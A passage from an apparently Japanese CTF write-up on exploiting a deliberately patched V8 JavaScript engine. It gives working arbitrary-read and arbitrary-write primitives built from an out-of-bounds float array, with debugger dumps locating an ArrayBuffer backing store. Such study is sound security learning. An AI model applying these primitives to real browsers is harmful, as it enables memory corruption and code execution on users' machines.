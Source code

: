 ```javascript
// AAR
// tmp_float_arr[0] <=> *(tmp_float_arr->pElements + 0x8)
function aar(addr) {
    addr -= 8n;
    // compress ptr
    if (addr % 2n == 0) {
        addr += 1n
    }

    // write elements of tmp_float_arr
    let tmp_float_arr = [1.1];
    tmp_float_arr = tmp_float_arr.slice(0);
    // save length of tmp_float_arr
    let l = f2i(tmp_float_arr[2]) & 0xffffffff00000000n;
    tmp_float_arr[2] = i2f(addr + l);

    return f2i(tmp_float_arr[0]);
}

// AAW
// tmp_float_arr[0] <=> *(tmp_float_arr->pElements + 0x8)
function aaw(addr, v) {
    addr -= 8n;
    // compress ptr
    if (addr % 2n == 0) {
        addr += 1n
    }

    // write elements of tmp_float_arr
    let tmp_float_arr = [1.1];
    tmp_float_arr = tmp_float_arr.slice(0);
    // save length of tmp_float_arr
    let l = f2i(tmp_float_arr[2]) & 0xffffffff00000000n;
    tmp_float_arr[2] = i2f(addr + l);

    tmp_float_arr[0] = i2f(v);
}

// AAW to outside of v8 heap
/*
d8> %DebugPrint(aaw_buf)
DebugPrint: 0x319708085e35: [JSArrayBuffer]
 - map: 0x31970824317d <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x319708208ba9 <Object map = 0x3197082431a5>
 - elements: 0x3197080426dd <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x55752b6c7440
...

pwndbg> x/32gx 0x319708085e35-1
0x319708085e34: 0x080426dd0824317d      0x00000400080426dd
0x319708085e44: 0x2b6c744000000000      0x2b6c78d000005575  <- backing_store (+0x14)
0x319708085e54: 0x0000000200005575      0x0000000000000000
0x319708085e64: 0x0000000000000000      0x080426dd08242c2d
0x319708085e74: 0x08085e35080426dd      0x0000000000000000
0x319708085e84: 0x0000000000000400      0x00000af15fae7000  <- at first, i overwrite here but it's false positive
0x319708085e94: 0x0000000000000000      0x0000000000000000
0x319708085ea4: 0x08085e3508042351      0x080429690824394d
0x319708085eb4: 0x08085e3500000002      0x080429690824394d
0x319708085ec4: 0x08085e3500000002      0x0804296900000000
0x319708085ed4: 0x08085e9500000002      0x0804223900000000
0x319708085ee4: 0x0824385d00000000      0x08210cc9080426dd
```

[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる